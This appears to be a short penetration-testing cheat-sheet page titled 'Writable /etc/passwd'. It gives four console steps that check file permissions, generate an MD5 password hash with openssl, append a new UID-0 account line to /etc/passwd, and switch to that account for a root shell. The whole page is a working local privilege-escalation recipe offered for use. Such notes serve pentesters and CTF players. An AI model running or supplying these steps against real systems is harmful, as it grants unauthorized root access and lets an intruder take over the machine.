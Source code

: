 ```yaml
---
title: "Writable /etc/passwd"
date: 2024-7-1
tags: ["passwd", "shadow", "/etc/passwd", "privesc"]
---
```


### Abuse #1: Writable /etc/passwd

<div>

```console
# Check
ls -l /etc/passwd /etc/shadow
```

```console
# Create password hash
openssl passwd -1 password
```

```console
# Add to /etc/passwd
echo 'user:$1$mQ8Xk.u8$XjFlyg01xLRjhCK/v//Qe/:0:0:comment:/root:/bin/bash' >> /etc/passwd
```

```console
# Get root shell
su - user
```

</div>

<br>